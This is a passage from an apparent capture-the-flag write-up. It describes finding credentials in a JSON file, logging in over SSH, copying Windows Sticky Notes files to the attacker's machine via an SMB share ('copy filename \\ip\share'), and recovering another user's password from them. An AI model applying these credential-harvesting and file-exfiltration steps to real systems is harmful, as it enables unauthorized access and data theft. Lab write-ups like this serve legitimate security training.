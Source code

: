 <img src="https://i.imgur.com/2jMPmV3.png"/>

So going back to that directory we can see the json file for the user and can find credentials in there

<img src="https://i.imgur.com/zB6LjmV.png"/>

<img src="https://i.imgur.com/Abzl7dn.png"/>

There's ssh port open on the machine we can try to login through ssh using these credentials

<img src="https://imgur.com/AoJ97Xq.png"/>

<img src="https://imgur.com/Ioawt8O.png"/>

Looking at the contents of `todo.html`

<img src="https://imgur.com/TAsD1fM.png"/>

<img src="https://imgur.com/EG8WWEn.png"/>

As the html file says about `Stick Notes` let's see if we can find where Windows saves sticky notes so going to this link I was able to find where the notes were stored

https://www.thewindowsclub.com/where-are-sticky-notes-saved-in-windows-10

<img src="https://imgur.com/SZtJywt.png"/>

<img src="https://imgur.com/EA95y7Q.png"/>

Now to save this on our machine we need to transfer it by creating a smb share on our local machine and making sure it has both read and write permissions so doing `nano /etc/samba/smb.conf`

<img src="https://imgur.com/R3gAkUZ.png"/>

<img src="https://i.imgur.com/4LW7Pep.png"/>

Start the service and transfer the file using `copy filename \\ip\share`

<img src="https://imgur.com/2GId8WP.png"/>

<img src="https://i.imgur.com/8hLsdPC.png"/>
 
 Make sure to copy all plum files and unfortunately you will need to transfer these files to Windows and copy them in the same location where you found these files on the target machine 
 
 <img src="https://i.imgur.com/d1jn9NV.png"/>
 
 Now just launch `Sticky Notes` application on Windows
 
 <img src="https://i.imgur.com/ma2nTGp.png"/>
 
 Now that we got the password for another use `development` we can access his folder and see what's in there
  